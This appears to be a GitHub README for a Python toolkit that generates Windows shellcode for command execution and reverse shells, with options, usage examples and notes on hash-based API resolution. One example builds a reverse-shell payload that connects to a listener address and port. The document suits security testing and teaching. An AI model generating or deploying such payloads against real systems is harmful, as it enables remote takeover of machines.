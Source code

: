 # Windows Shellcode Generator

A toolkit for creating custom shellcode payloads for Windows targets. This project provides a comprehensive set of tools for shellcode generation, manipulation, and execution.

## Overview

This toolkit allows you to create custom shellcode for various purposes, including:
- Command execution
- Reverse shell connections
- API function resolution
- Process creation and manipulation

The generated shellcode is designed to be compact and flexible.

## Features

- **API Function Resolution**: Dynamically locate and call Windows API functions
- **Network Operations**: Create socket connections for reverse shells
- **Process Creation**: Execute commands and create processes on target systems
- **Command Execution**: Various methods to run commands (CreateProcess, WinExec)
- **Utility Functions**: Format and manipulate shellcode
- **Bad Character Handling**: Avoid problematic bytes in shellcode
- **Debugging Support**: Break points and verbose output for troubleshooting

## Requirements

- Python 3.12 or higher
- Keystone Engine (for assembly)

## Installation

1. Clone the repository
2. Install the required dependencies:
```shell script
pip install -r requirements.txt
```


## Usage

The main script provides a command-line interface with several options:

```shell script
python shellcode_blocks.py [options]
```


### Basic Options

- `-c, --command`: Specify command(s) to execute (can be used multiple times)
- `-l, --lhost`: Local host IP address for reverse shells
- `-p, --lport`: Local port number for reverse shells
- `-v, --verbose`: Enable debug printing
- `-e, --execute`: Execute shellcode after building
- `-a, --assembly`: Print full assembly code

### Advanced Options

- `-var, --variable`: Variable name to use in output
- `-lang, --language`: Output language (python, c++)
- `-f, --force_break`: Add debug breakpoints at the start
- `-ff, --force_break_functions`: Add debug breakpoints in key functions
- `-b, --bad_char`: Specify bad characters to avoid
- `-py, --python_script`: Generate a Python script for the shellcode
- `-ex, --exec`: Choose execution function (CREATE_PROCESS, WIN_EXEC)

### Examples

#### Generate command execution shellcode:
```shell script
python shellcode_blocks.py -c "cmd.exe /c whoami" -v
```


#### Create reverse shell payload:
```shell script
python shellcode_blocks.py -l 192.168.1.100 -p 4444
```


#### Generate shellcode and execute it:
```shell script
python shellcode_blocks.py -c "calc.exe" -e
```


#### Output assembly with debugging breakpoints:
```shell script
python shellcode_blocks.py -c "notepad.exe" -a -f
```


#### Generate a Python script with the shellcode:
```shell script
python shellcode_blocks.py -c "cmd.exe /c ping 127.0.0.1" -py shellcode.py
```


## Project Structure

- `shellcode_blocks.py`: Main script for generating shellcode
- `utils.py`: Utility functions and building blocks
- `api_function_hash_calculator.py`: Tool for calculating API function hashes

## Technical Details

### Shellcode Building Blocks

The toolkit includes functions for:

1. **Memory Operations**
   - Stack manipulation
   - String creation and handling

2. **API Resolution**
   - Finding base address of kernel32.dll
   - Locating API functions by hash
   - Loading additional DLLs (ws2_32.dll)

3. **Networking**
   - Creating sockets
   - Establishing connections
   - Setting up data structures

4. **Process Creation**
   - STARTUPINFO structure setup
   - CreateProcess and WinExec calls
   - Command parameter handling

### Function Hashing

The toolkit uses a custom hashing algorithm to find Windows API functions:
- Calculates hashes based on function names
- Performs right-rotate operations on sums of ASCII values
- Allows shellcode to locate functions without hardcoded addresses

## Security Considerations

This toolkit is designed for educational and professional security testing purposes only. The generated shellcode can be used to:

- Test security controls
- Develop defense mechanisms
- Understand low-level system operations

**Important**: Use responsibly and only on systems you own or have explicit permission to test.

## Author

wh1rl3y

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE](LICENSE) file for details.

Copyright (C) 2025 Your Name

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program comes with ABSOLUTELY NO WARRANTY. See the GNU General Public License for more details.
